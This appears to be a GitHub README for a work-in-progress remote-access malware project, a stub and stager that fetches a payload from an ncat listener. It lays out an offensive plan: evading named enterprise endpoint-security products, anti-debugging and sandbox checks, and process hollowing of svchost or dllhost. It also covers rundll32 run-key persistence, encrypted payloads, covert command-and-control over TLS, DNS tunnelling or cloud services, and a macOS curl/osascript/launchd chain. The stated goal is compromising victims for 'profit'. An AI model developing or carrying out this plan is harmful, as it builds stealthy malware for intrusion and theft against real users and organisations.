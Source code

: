 # sekc
tcp stub

# TODO (next steps)
- hashing
- recon
- anti av, anti debug, anti edr

### Commands
- g++ stub.cpp -o stub
- x86_64-w64-mingw32-gcc -s -Wl,--entry=main -Wl,--strip-all stager.c -o stager.exe
- server: ncat -lvp 4444 --send-only < payload.bin
- client: run executable

### TODO (client)
- rev https stub (use logic from tcp stub)
- check for debugger
  - https://learn.microsoft.com/en-us/windows/win32/debug/debugging-functions
  - https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-isdebuggerpresent
- use a combination of manual api resolution and direct system calls (direct system calls are stealthier)

### Features (TODO)
- sleep obfuscation

### TODO (server)
- logic written in golang
- gui written in c++ and qt gui ?

### Workflow
dropper/installer -> stager -> beacon/agent (payload) -> profit? 
stub -> payload (establish persistence) -> full install -> profit? 

### stub
- avoid installation / when stub is being transfer to the victim
- avoid detection while idle but installed on victim machine
- avoid detection while stub is executing / alive
- avoid detection after stub is done... clean up or find somewhere to hide?

### Counter Measures
- Ivanti Device & Application Control
- Symantec Endpoint Protection
- RTNotify?
- /////
- Zscaler
- Secret Double Octopus
- BeyondTrust Privilege Management / Avecto Privilege Guard Client
- Forcepoint DLP Endpoint
- Boldon James File Classifier
- Cisco Secure Client

### Counter-Counter Measures
- https://www.cobaltstrike.com/
- dll side-loading
- reflective dll injection
- dll as a payload container
- com / activeX dll abuse
- hide code in different/unusal sections of the PE
- payload/stub encryption (xor)
-   AES-GCM (AES in Galois/Counter Mode)
-   ChaCha20-Poly1305 — faster on devices without AES hardware acceleration
-   -
-   Simple obfuscation for quick hacks: XOR, rolling-XOR, trivial byte transform
-   Packers / crypters: UPX (both legitimate use and abused), commercial crypters and custom packers.
-   Standard symmetric crypto for serious samples: AES (often AES-128 or AES-256), frequently in authenticated modes (GCM is common in newer tooling), or ChaCha20-Poly1305 on toolchains that favor it.
-   Custom multi-stage formats: compressed → encrypted → encoded blobs inside .rsrc or custom sections; small loader/stub in .text unpacks/decrypts in memory.
-   Polymorphism/metamorphism:
- c2/network encryption (https and custom tsl wrappers)
-   TLS 1.3
-   Mutual TLS
-   Use HTTP(S) or WebSockets over TLS if you need easy firewall traversal and visibility via HTTP semantics.
-   Ephemeral key exchange (ECDHE) for Perfect Forward Secrecy (PFS).
-   -
-   HTTPS / TLS (very common): attackers prefer HTTPS because it blends with normal web traffic. Many C2 frameworks use TLS 1.2 or TLS 1.3.
-   Mutual TLS (mTLS) occasionally: more advanced operators use mTLS for client auth (makes detection/control harder).
-   WebSockets over TLS for persistent, bidirectional channels that look like normal web apps.
-   DoH / DoT / DNS tunneling when environments restrict normal web egress. DNS tunneling tools (Iodine, DNScat2 variants) or DoH (DNS over HTTPS) are used for stealthy beacons and tiny data exfil.
-   Custom encrypted TCP/UDP channels: AES/ChaCha20 used over raw sockets when stealth beyond TLS is desired.
-   Abuse of legitimate cloud/web services: GitHub Gists, Google Drive, Slack, Discord, cloud functions, or pastebins as C2 or staging; traffic to these looks normal and is hard to block broadly.
- metamorphic engine

### Windows
- workflow
-   make structure for command parsing on the client to server and retrieve commands sent from the server to the client, as well as parse them and execute the given plugin associated with the command
-   connect to our server on a given port. collect information about the system and encrpyt it. then send it to our server. establish a foothold thread for communication. check if system is a vm machine or sandbox, if it is then don't unencrypt/unpack self. also don't establish persistence, it should actually probably delete itself entirely. at this point, nothing should be written to the disk and everything should be running in memory (ram).
-   spawn zombie process svchost.exe or dllhost.exe. CreateProcessInternal, CREATE_SUSPENDED, SuspendThread
-   %appdata\\Microsoft\\453543.dll. rundll32.exe - execute our dll. rundll32.exe as a runkey.
-   it gets on system. 1. check if it's already running. 2. move to %appdata%. 3. setup persistence.
-   takes the form of a .dll file

### MacOS
- curl, osascript, launchd
- workflow:
-   Delivery → script (AppleScript/Bash/Python)
-   Download → curl or scripting network
-   Execution → script or small Mach-O payload
-   Persistence → launchd agent, cron, login item
-   Stealth → hide files, mimic system apps, automate via osascript

# Resources
- https://attack.mitre.org/
- https://attack.mitre.org/groups/
